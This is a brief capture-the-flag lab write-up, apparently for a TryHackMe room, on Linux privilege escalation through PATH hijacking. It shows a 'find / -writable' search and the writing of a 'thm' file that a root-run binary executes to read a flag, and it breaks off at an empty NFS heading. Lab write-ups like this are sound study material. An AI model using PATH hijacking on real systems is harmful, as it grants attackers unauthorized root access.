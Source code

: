 # Privilege Escalation: PATH

#### Find the writable file

```bash
find / -writable 2>/dev/null
```

Found it !!

![find.png](../../photos/find.png)

#### Now go to the directory and write the code

As it appears test runs thm as a root...

![test](../../photos/test.png)

let's add a command to print the flag....

```bash
echo 'cat /home/matt/flag6.txt' > thm
```

![thm.png](../../photos/thm.png)

---
# Privilege Escalation: NFS

#### Mounting
